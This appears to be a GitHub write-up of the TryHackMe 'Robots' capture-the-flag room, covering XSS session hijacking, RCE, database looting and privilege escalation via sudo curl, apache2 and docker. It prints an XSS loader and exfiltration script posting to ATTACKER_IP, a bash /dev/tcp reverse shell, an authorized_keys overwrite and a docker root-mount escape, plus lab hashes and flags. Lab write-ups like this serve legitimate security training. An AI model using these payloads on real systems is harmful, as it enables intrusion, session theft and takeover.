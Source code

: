 
# 🤖 TryHackMe: Robots (Hard)

> A web application hacking challenge involving XSS, session hijacking, database exploitation, SSH pivoting, and multi-stage privilege escalation.

---

## 🎯 Objectives

- Get User & Root flag
- Identify vulnerable services and paths
- Exploit XSS for session hijacking
- Gain remote shell access
- Perform local enumeration and database extraction
- Pivot SSH users and escalate to root

---

## 🔧 Tools Used

- `nmap`, `curl`, `ffuf`
- `Python3 HTTP Server`, `nc`
- `MySQL Client`
- `chisel` (port forwarding)
- `ssh`
- `GTFOBins`
- `Burp Suite`

---

## 🔍 Scanning & Enumeration

Performed aggressive Nmap scan:

```bash
nmap -A -sV 10.10.151.212
```

Discovered open ports:
- 22/tcp (SSH)
- 80/tcp (HTTP – Apache 2.4.61)
- 9000/tcp (HTTP – Apache 2.4.52)

---

## 📄 Exploring `/robots.txt`

```bash
curl http://10.10.151.212/robots.txt
```

Found:
```
Disallow: /harming/humans
Disallow: /ignoring/human/orders
Disallow: /harm/to/self
```

Added `robots.thm` to `/etc/hosts`.

---

## 🕵️ Web Application Analysis

Discovered:
- XSS vulnerability in username field (login page)
- `PHPSESSID` cookie was HttpOnly (could not directly steal)

Found `/harm/to/self/server_info.php` leaking `phpinfo()` with session data.

---

## 💥 Exploiting XSS to Hijack Session

Payload:
```html
<script src="http://ATTACKER_IP/xs3.js"></script>
```

**xs3.js** script:
```javascript
async function exfil() {
    const response = await fetch('/harm/to/self/server_info.php');
    const text = await response.text();

    await fetch('http://ATTACKER_IP/exfil', {
        method: 'POST',
        headers: { 'Content-Type': 'application/x-www-form-urlencoded' },
        body: `data=${btoa(text)}`
    });
}
exfil();
```

- Exfiltrated session ID via listener on port 81
- Base64 decoded the PHPSESSID
- Logged in as admin

---

## 🛠️ Gaining Shell

- Found **admin.php** executing user-provided URLs.
- Hosted `shell.php` on attacker machine.
- Used RCE to get reverse shell back.

---

## 🗄️ Database Looting

- Discovered database credentials in PHP source code.
- Used **chisel** for port forwarding to MySQL.
- Extracted users table containing admin and rgiskard credentials.
- rgiskard : dfb35334bf2a1338fa40e5fbb4ae4753
- admin : 3e3d6c2d540d49b1a11cf74ac5a37233

SSH logged in as `rgiskard`.

---

## 🔥 Privilege Escalation - User to User

Checked `sudo -l`:

```bash
User rgiskard may run the following commands:
(dolivaw) /usr/bin/curl 127.0.0.1/*
```

Used curl to:
- Execute `sudo -u dolivaw /usr/bin/curl 127.0.0.1/ file:///home/dolivaw/user.txt` for **User Flag**:
```
THM{9b17d3c3e86c944c868c57b5a7fa07d8}
```

---

## 🧠 SSH Pivot to `dolivaw`

Generate key using `ssh-keygen -f id_ed25519 -t ed25519`.
Uploaded SSH key by:
```bash
sudo -u dolivaw /usr/bin/curl 127.0.0.1/ATTACKER_IP/id_ed25519.pub -o /home/dolivaw/.ssh/authorized_keys
```

Logged in:
```bash
ssh -i id_ed25519 dolivaw@robots.thm
```

---

## Get Root flag

Checked `sudo -l`:

```bash
User dolivaw may run: /usr/sbin/apache2
```

Used GTFOBins trick:

To read the root flag:
```bash
sudo /usr/sbin/apache2 -C 'Define APACHE_RUN_DIR /tmp' -C 'Include /root/root.txt' -k stop
```

Extracted **Root Flag**:
```
THM{2a279561f5eea907f7617df3982cee24}
```
🏁 Privilege Escalation - Root

Create an cgi.conf:
```
LoadModule mpm_event_module /usr/lib/apache2/modules/mod_mpm_event.so
LoadModule authz_core_module /usr/lib/apache2/modules/mod_authz_core.so
LoadModule mime_module /usr/lib/apache2/modules/mod_mime.so
LoadModule cgi_module /usr/lib/apache2/modules/mod_cgi.so
LoadModule alias_module /usr/lib/apache2/modules/mod_alias.so

User www-data
Group docker

ServerName localhost
Listen 8080

TypesConfig /etc/mime.types

ScriptAlias /rev /tmp/rev.sh

ErrorLog "/tmp/error.log"
```
and revershell bash
```
/bin/bash -i >& /dev/tcp/ATTACKER_IP/443 0>&1
```
Start a listener on port 443.

 - Start apache2 `sudo /usr/sbin/apache2 -f /tmp/cgi.conf -k start`.
 - Give permission to rev.sh `chmod 777 /tmp/rev.sh`.
 - to get reverse shell `curl http://127.0.0.1:8080/rev`.
 - We can see that there's docker running using `id` command.

Shell as root:
 - To list images `docker image ls`.
 - To get root `docker run -v /:/mnt --rm -it mariadb sh`.
---

## 📚 What I Learned

- Exploiting HttpOnly cookies indirectly via phpinfo() leaks
- Building realistic XSS exfil scripts
- Chaining session hijack to RCE
- Database dumping through port forwarding
- SSH pivoting between users
- Root escalation via misconfigured sudo permissions on services

---

✅ End of Walkthrough.
